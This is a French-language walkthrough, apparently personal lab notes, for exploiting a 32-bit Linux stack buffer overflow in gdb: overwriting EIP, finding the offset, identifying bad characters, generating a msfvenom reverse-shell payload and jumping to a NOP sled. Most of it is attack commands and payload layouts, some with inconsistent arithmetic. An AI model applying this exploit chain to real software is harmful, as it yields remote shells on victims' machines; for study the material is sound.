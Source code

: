 # Reverse Shell

## Take Controle of EIP

Avec `gdb`, envoyer un nombre important de 'A' au programme jusqu'a obtenir une erreur soit (`SIGSEGV, Segementation fault`)

```sh
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) run $(python2 -c "print 'A' * 1200")
```

A partir des informations du registre `info registers`, verifier que nous avons bien ecrit sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

## Finding the offset

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour écrasé sur `EIP`

```sh
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```sh
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouver l'`offset` correspondant.

```sh
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note `offset`.

## Determine the Length for Shellcode

Apres avoir trouver l'`offset` , nous devons maintenant découvrir de combien d’espace nous disposons pour que notre reverse shell

nous avons besoin de :

```sh
   Buffer = "A" * (offset - 100 - 150 - 4)
     NOPs = "\x90" * 4
Shellcode = "\x44" * 50
      EIP = "\x66" * 4
```

```sh
(gdb) run $(python2 -c 'print "A" * (54 - 100 - 150 - 4) + "\x90" * 4 + "B" * 50 + "\x66" * 4')
```

Verifier que nous controllons `EIP` et qu'il a une nouvelle valeur soit `0x66666666`.

## Find bad caracter

Une fois que nous controllons l'`EIP`, nous devons identifier les mauvais caractères

Nous utilisons cette liste de caractères  pour connaître tous les caractères que nous devons prendre en compte et éviter lors de la génération de notre shellcode.

Cette chaîne fait `256`  octets

```sh
$CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

echo $CHARS | sed 's/\\x/ /g' | wc -w
```

Nous devons donc recalculer notre tampons

```sh
Buffer = "A" * (offset - 256 - 4)
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

Maintenant il faut mettre un point d'arrêt au niveau de la fonction vulnerable pour que l'exécution s'arrête à ce stade, et nous puissions analyser le contenu de la mémoire.

```sh
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

Maintenant, nous pouvons exécuter l’entrée nouvellement créée et consulter la mémoire.

```sh
(gdb) run $(python2 -c 'print "A" * (54 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

Après avoir exécuté notre tampon avec les mauvais caractères et atteint le point d'arrêt, nous pouvons examiner la pile.

```sh
(gdb) x/2000xb $esp+500
```

Descendre plus bas et chercher le point final de `A` et le point de départ de `CHARS`

Nous voyons où se termine notre `A` et où commence la variable `CHARS`

Noter tout les caractères qui saute l'ordre de `CHARS`, supprimer le de `CHARS` et ajuster le numéro de `CHARS` en retirant `-1` soit : `Buffer = "A" * (offset - (256 - n) - 4)` puis **rexécuter**

**Ce processus doit être répété jusqu'à ce que tous les caractères susceptibles d'interrompre le flux soient supprimés.**

Generalement nous devont verifier le `\x00` qui nous indique que ce caractère n'est pas autorisé ici et doit être supprimé en conséquence.


Ces caractères noter sera notre `bad characters`

## Generating Shellcode

```sh
msfvenom --platform linux -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=4444 -f c -b "<badchars>" -o shellcode.c
```

Maintenant que nous avons notre shellcode, nous l'ajustons pour n'avoir qu'une seule chaîne, puis nous pouvons adapter et soumettre à nouveau notre simple exploit.

```sh
   Buffer = "A" * (offset - 124 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4
```

```sh
(gdb) run $(python -c 'print "\x55" * (offset - 124 - 95 - 4) + "\x90" * 4 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

Ensuite, nous vérifions si les premiers octets de notre shellcode correspondent aux octets après le NOPS.

Aller a la fin des `NOPs` et obsever le debut du shellcode

```sh
(gdb) x/2000xb $esp+550
```

## Identification of the Return Address

Après avoir vérifié que nous contrôlons toujours l'EIP avec notre shellcode, nous avons maintenant besoin d'une adresse mémoire où se trouvent nos NOP pour dire à l'EIP d'y accéder.

Cette adresse mémoire ne doit contenir aucun des mauvais caractères que nous avons trouvés précédemment.

```sh
(gdb) x/2000xb $esp+1400
# 0xffffd644: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd64c: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd654: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd65c: 0x90  0x90  0xda  0xca  0xba  0xe4  0x11  0xd4
```

Ici, il faut maintenant choisir une adresse à laquelle on se réfère `EIP`

Après avoir sélectionné une adresse mémoire, nous remplaçons notre " `\x66`" qui écrase l'EIP pour lui dire de passer à l'adresse selectionner. (`0xffffd64c`)

Notez que la saisie de l'adresse selectionner est saisie à l'envers.
 
```sh
   Buffer = "A" * (offset - 100 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = \x4c\xd6\xff\xff"
```

**Executer le programme pour obtenir un reverse shell**

```sh
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

